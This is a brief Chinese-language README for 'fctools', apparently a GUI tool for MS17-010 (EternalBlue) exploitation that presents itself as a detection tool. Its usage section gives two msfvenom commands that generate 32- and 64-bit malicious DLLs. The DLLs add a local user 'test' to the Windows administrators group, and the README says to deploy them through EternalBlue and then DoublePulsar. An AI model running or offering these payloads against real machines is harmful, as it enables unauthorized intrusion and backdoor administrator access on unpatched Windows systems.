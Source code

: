 
## name
fctools
## purpose
内网ms17010基于GUI的测试检测工具
## how to use
使用msf命令生成恶意dll


```JavaScript
msfvenom -p windows/exec CMD="cmd.exe /c net user test test /add&net localgroup administrators test /add" EXITFUNC=process -f dll > /root/x32.dll

msfvenom -p windows/x64/exec CMD="cmd.exe /c net user test test /add&net localgroup administrators test /add" EXITFUNC=process -f dll > /root/x64.dll
```

然后将dll放入工具主目录下即可，先进行永恒之蓝的利用，再进行双子星的利用
